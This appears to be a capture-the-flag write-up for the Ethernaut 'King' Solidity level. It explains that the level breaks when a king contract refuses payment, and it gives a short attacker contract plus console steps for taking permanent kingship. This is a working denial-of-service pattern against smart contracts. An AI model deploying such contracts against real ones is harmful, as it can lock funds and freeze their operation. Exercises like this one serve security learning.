 # King

> When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

The problem with the code is that there is no proper fallback function which could handle the case where the transaction from `king.transfer(msg.value)` fails.

## Solution

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract KingAttack {
    function attack(address king_) public payable {
        (bool result, ) = king_.call{value: msg.value}("");
        if (!result) revert();
    }
}
```

Contract address: `0x0eF98417eA5EcF7D4CaE409Ff1B1b0E7668be77b`

Deploy this and then call "attack" with 0.1 ETH once that is done. Go back in the console and run 

```js
await contract._king()
```

Our contract will be the king.